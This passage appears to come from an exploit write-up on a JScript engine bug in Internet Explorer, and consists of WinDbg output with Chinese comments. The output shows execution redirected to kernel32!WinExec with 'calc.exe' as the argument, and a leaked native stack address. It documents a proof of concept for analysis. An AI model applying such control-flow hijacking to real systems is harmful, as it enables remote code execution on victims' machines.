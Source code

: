 ```
// eip 为 kernel32!WinExec
0:013&gt; u 0x76c38d50
kernel32!WinExec:
00000000`76c38d50 488bc4          mov     rax,rsp
00000000`76c38d53 48895808        mov     qword ptr [rax+8],rbx
00000000`76c38d57 55              push    rbp
00000000`76c38d58 56              push    rsi
00000000`76c38d59 57              push    rdi
00000000`76c38d5a 4881ec10010000  sub     rsp,110h
00000000`76c38d61 0fbae21f        bt      edx,1Fh
00000000`76c38d65 8bf2            mov     esi,edx

// rcx 为 WinExec 的命令行参数
0:013&gt; dc 0x39e9c4
00000000`0039e9c4  575c3a43 6f646e69 535c7377 65747379  C:\Windows\Syste
00000000`0039e9d4  5c32336d 636c6163 6578652e 00000000  m32\calc.exe....
00000000`0039e9e4  00000069 00000002 00000069 000942a2  i.......i....B..
00000000`0039e9f4  00000008 00790074 00650070 00000000  ....t.y.p.e.....
00000000`0039ea04  a9cc59f8 0000001a 0062006f 005f006a  .Y......o.b.j._.
00000000`0039ea14  00740070 005f0072 006f006c 00650077  p.t.r._.l.o.w.e.
00000000`0039ea24  00000072 a9d7dd8b 0000001a 0062006f  r...........o.b.
00000000`0039ea34  005f006a 00740070 005f0072 00700075  j._.p.t.r._.u.p.

// rsp 为泄露的 native stack 地址
0:013&gt; dps 0x53884e0 l50
00000000`053884e0  00000000`00001f80
00000000`053884e8  000007fe`fd1a24c8 msvcrt!control87+0x28
00000000`053884f0  00000000`05388580
00000000`053884f8  000007fe`f00d9315 jscript!TLS_NoDestructor::Close+0x59
00000000`05388500  00000000`00001fa0
00000000`05388508  00000000`00000451
00000000`05388510  00000000`0037aab8
00000000`05388518  00000000`00000409
00000000`05388520  00000000`00000451
00000000`05388528  000007fe`f00c4f44 jscript!IDispatchExInvokeEx2+0x1a5
00000000`05388530  00000000`056fbda0
00000000`05388538  00000000`00000000
00000000`05388540  00000000`056fbda0
00000000`05388548  00000000`00000451
00000000`05388550  00000000`05388678
00000000`05388558  00000000`00000000
00000000`05388560  00000000`05388690
00000000`05388568  00000000`0720e490
00000000`05388570  00000000`00000000
00000000`05388578  00000000`003ae071
00000000`05388580  00000000`00335310
00000000`05388588  00000000`00000000
00000000`05388590  00000000`00000000
00000000`05388598  00000000`00000000
00000000`053885a0  00000000`003797a0
00000000`053885a8  000007fe`f00c4e26 jscript!IDispatchExInvokeEx+0xbb
00000000`053885b0  00000000`00000451
00000000`053885b8  00000000`003797a0
00000000`053885c0  00000000`056fbda0
00000000`053885c8  00000000`00000000
00000000`053885d0  00000000`00370001
00000000`053885d8  00000000`05388678
00000000`053885e0  00000000`00000000
00000000`053885e8  00000000`05388690
00000000`053885f0  00000000`0720e490
00000000`053885f8  00000000`00000000
00000000`05388600  00000000`056fbda0
00000000`05388608  000007fe`f00c4cfd jscript!InvokeDispatchEx+0x19c
```